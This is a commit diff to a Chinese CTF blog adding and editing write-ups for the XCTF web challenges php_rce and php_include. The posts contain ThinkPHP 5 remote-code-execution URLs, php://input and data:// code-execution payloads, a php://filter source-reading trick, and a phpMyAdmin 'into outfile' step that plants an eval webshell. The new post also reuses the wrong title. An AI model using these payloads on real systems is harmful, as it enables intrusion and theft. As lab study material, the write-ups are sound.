

Before and after one commit to MonkeyDatabase/MonkeyDatabase.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 1356 px of the page at 96% size, without its empty margins (27-985 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown.

Commit message:
commit ctf web php_include

````diff
--- a/_posts/2020-10-12-ctf-web-php-rce.md
+++ b/_posts/2020-10-12-ctf-web-php-rce.md
@@ -1,7 +1,7 @@
 ---
 layout: post
-title: Web新手题-php_rce
-excerpt: "攻防世界新手Web题目-php_rce"
+title: Web进阶题-php_rce
+excerpt: "攻防世界进阶Web题目-php_rce"
 date:   2020-10-12 19:28:00
 categories: [CTF]
 comments: true
@@ -14,7 +14,7 @@ comments: true
 3. 遍历目录寻找flag，*ip:port//?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=exec&vars\[1\]\[\]=ls*，返回网页内容为"static"
 4. 进入static，查看文件夹内容，*ip:port/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=exec&vars\[1\]\[\]=cd%20static;ls*，返回网页内容为空
 5. 发现ls只会返回来一行，所以可以通过head命令，查看特定的某一行
-6. 最后*ip:port/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=exec&vars\[1\]\[\]=cd /;ls -l|head -n 6*，发现了flag文件，网页返回内容为“-rw-r--r-- 1 root root 20 Jul 29 2019 flag”
+6. 最后*ip:port/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=exec&vars\[1\]\[\]=cd /;ls -l\|head \-n 6*，发现了flag文件，网页返回内容为“-rw-r--r-- 1 root root 20 Jul 29 2019 flag”
 7. 访问该文件内容，*ip:port/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=exec&vars\[1\]\[\]=cd% /;cat flag;*，网页返回内容为"flag{thinkphp5_rce}"
 8. 提交flag，答案正确。
 
--- /dev/null
+++ b/_posts/2020-10-13-ctf-web-Web-php-include.md
@@ -0,0 +1,128 @@
+---
+layout: post
+title: Web进阶题-php_rce
+excerpt: "攻防世界进阶Web题目-php_rce"
+date:   2020-10-13 14:29:00
+categories: [CTF]
+comments: true
+---
+
+## 我的解题过程
+
+1. 访问网站，网页正文为
+
+   ```php
+   <?php
+   show_source(__FILE__);
+   echo $_GET['hello'];
+   $page=$_GET['page'];
+   while (strstr($page, "php://")) {
+       $page=str_replace("php://", "", $page);
+   }
+   include($page);
+   ?>
+   ```
+
+   * \_\_FILE\_\_，当前文件的绝对地址
+   * show_source()对文件进行PHP语法高亮显示
+   * 打印GET方法传来的hello参数
+   * 将GET方法传来的page参数赋值给$page变量
+   * 通过while循环除去$page变量中的"php://"字符串，strstr()返回第一次第二个参数在第一个参数字符串中的位置，当查找失败时返回null
+   * include获取指定文件中存在的所有文本、代码、标记
+
+2. 首先绕过*php://*，使用大小写绕过即可，Pnp://。
+
+3. 然后通过php://input，通过POST上传PHP脚本，进而执行系统命令，网页返回内容为"fl4gisisish3r3.php、index.php、phpinfo.php"，发现flag所在的文件名为fl4gisisish3r3.php。
+
+   ```txt
+   POST /?page=Php://input HTTP/1.1
+   Host: 220.249.52.133:34797
+   Content-Length: 20
+
+   <?php system("ls")?>
+   ```
+
+4. 尝试直接访问，*ip:port/fl4gisisish3r3.php*，网页返回内容为空，看来需要直接读取该PHP源码文件
+
+5. 使用PHP://filter，读取文件，并通过base64编码将它回显，构造访问链接*ip:port/?page=Php://filter//read=convert.base64-encode/resource=./fl4gisisish3r3.php*，网页返回内容为"PD9waHAKJGZsYWc9ImN0Zns4NzZhNWZjYS05NmM2LTRjYmQtOTA3NS00NmYwYzg5NDc1ZDJ9IjsKPz4K"
+
+6. 使用Hasher Chrome扩展进行base64解码，内容如下
+
+   ```php
+   <?php
+   $flag="ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}";
+   ?>
+   ```
+
+7. 发现flag，ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}
+
+8. 提交，答案正确
+
+## 别人的解题方法
+
+### 方法一
+
+1. 使用data://伪协议
+2. 获取当前路径，*?page=data://text/plain,\<?php echo $_SERVER['DOCUMENT_ROOT'] ?\>*，网页返回内容为"/var/www"
+3. 列出当前路径下的文件，*?page=data://text/plain,\<?php print_r(scandir("/var/www")); ?\>*，网页返回内容为"Array ( [0] => . [1] => .. [2] => fl4gisisish3r3.php [3] => index.php [4] => phpinfo.php )"
+4. 查看fl4gisisish3r3.php文件内容，*?page=data://text/plain,\<?php $a_code=file_get_contents("fl4gisisish3r3.php");echo htmlspecialchars($a_code); ?\>，网页返回内容为"\<?php $flag="ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}"; ?\>"
+
+* file_get_contents()把整个文件读入一个字符串
+* scandir(dir)返回文件和目录的数组
+* print_r()将变量进行打印，string、integer、float类型直接打印变量，array、object会按一定格式进行打印
+
+### 方法二
+
+1. 扫描目录，发现ip:port//phpmyadmin/
+2. 使用用户名root，密码为空直接登陆成功
+3. 执行sql，"select "\<?php eval(@$_POST['flag']); ?\>" into outfile '/tmp/test.php'",文件写入成功
+4. 使用菜刀工具连接，但是我运行菜刀**崩溃**，这种方法没有复现成功
+
+## 独立思考
+
+### 1. 为什么PHP代码中会过滤*php://*？
+
+php:// 访问各个输入/输出流(I/O streams)
+
+PHP提供了一些杂项输入/输出流，允许PHP访问PHP的输入输出流、标准输入输出、错误描述符，内存中、磁盘备份的临时文件流以及可以操作其他读写文件资源的过滤器。
+
+| 流                                            | 作用                                          |
+| --------------------------------------------- | --------------------------------------------- |
+| php://stdin</br>php://stdout</br>php://stderr | 允许直接访问PHP进程相应的输入或输出流         |
+| php://input                                   | 是一个可以访问Request的原始数据的只读流       |
+| php://output                                  | 允许以和print、echo一样的方式写入到输出缓冲区 |
+| php://fd                                      | 允许直接访问指定的文件描述符                  |
+| php://memory</br>php://temp                   | 类似文件包装器的数据流，允许读写临时数据      |
+| php://filter                                  | 数据流打开时筛选过滤                          |
+
+在CTF中常用的是php://filter和php://input
+
+* php://filter用于读取源码并进行base64编码输出，不然就会直接当作PHP代码执行
+  * resource=\<\>，必需参数，它指定了筛选过滤的流
+  * read=\<\>，可选参数，定义读链的筛选列表，可以设置一个或多个，以管道符分隔
+  * write=\<\>，可选参数，定义写链的筛选列表，可以设置一个或多个，以管道符分隔
+  * php://filter/read=convert.base64-encode/resource=\[文件名\]
+* php://input用于执行php代码，与POST方法匹配起作用，将POST方法传来的数据作为PHP代码执行
+  * url中带上get参数php://input
+  * POST数据中带上PHP代码<?php phpinfo()?\>
+
+### 2. include()有什么常见利用方法吗？
+
+include和require语句在作用上大致相同，但是在错误处理方面：
+
+* require会生成致命错误(E_COMPILE_ERROR)，并停止脚本
+* include只生成警告(E_WARNING)，并且脚本会继续
+
+所以使用require向执行流引用关键文件，有助于提高应用程序的安全性和完整性。
+
+这也就是说本题应该可能要利用E_WARNING？那E_WARNING很可能在php://stderr里面。
+
+### 3. 菜刀工具为什么可以访问到非web目录下的木马？
+
+未解决
+
+## 产生过的疑问
+
+1. 为什么PHP代码中会过滤*php://*？
+2. include()有什么常见利用方法吗？
+3. 菜刀工具为什么可以访问到非web目录下的木马？
````
